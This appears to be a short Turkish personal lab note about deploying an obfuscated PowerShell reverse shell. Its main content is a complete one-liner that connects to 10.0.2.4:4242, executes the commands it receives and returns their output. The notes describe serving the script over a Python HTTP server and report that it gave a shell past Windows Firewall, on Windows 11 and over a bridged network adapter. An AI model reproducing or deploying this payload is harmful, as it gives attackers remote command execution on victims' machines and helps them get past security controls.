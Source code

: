 ### Bize bu sonucu verdi
```
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('10.0.2.4',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
---


### Python3 -m http server ile bizim oluşturduğumuz obfuscated.ps1 'i karşı tarafa attık ve powershell içinde çalıştırdık.
## ve windows firewall herşey açık olmasına rağmen shell'i aldık.


![[Pasted image 20240405003941.png]]
![[Pasted image 20240405003905.png]]

![[Pasted image 20240405003818.png]]

---
---
### Win 11 dede denedim oluyor. Sadece yüklerken bu güvenilmez dedi.
![[Pasted image 20240405005229.png]]
![[Pasted image 20240405005141.png]]
![[Pasted image 20240405005254.png]]
![[Pasted image 20240405005317.png]]

### Bridge adapter'a alıp denedim direk çalıştırdı.

![[Pasted image 20240405010936.png]]







